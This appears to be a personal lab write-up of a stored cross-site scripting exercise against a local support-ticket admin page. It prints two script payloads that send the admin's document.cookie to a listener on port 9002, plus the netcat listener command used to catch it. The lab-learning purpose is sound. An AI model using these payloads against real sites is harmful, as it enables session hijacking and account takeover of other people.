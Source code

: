 - Goto `localhost/labs/x0x03_admin.php` where `admin` can see all the support tickets
	- ![[Pasted image 20250406101654.png]]
- Steal the admin cookie
	- ![[Pasted image 20250406101714.png]]
- Set 2 containers as:
	- ![[Pasted image 20250406101826.png]]

# Exploitation
---
- Payload is:
```html
<script>window.location="http://localhost:9002/?cookie=" + document.cookie</script>
```
	OR
```html
<script> var i = new Image;i.src="http://localhost:9002"+document.cookie;</script>
```

- Setup a `nc` listener on port `9002`
	- `nc -lnvp 9002`

- On Hacker container:
	- `<script>window.location="http://localhost:9002/?cookie=" + document.cookie</script>`
	- ![[Pasted image 20250406103110.png]]
- On Admin container `refresh`
- On terminal:
	- ![[Pasted image 20250406103026.png]]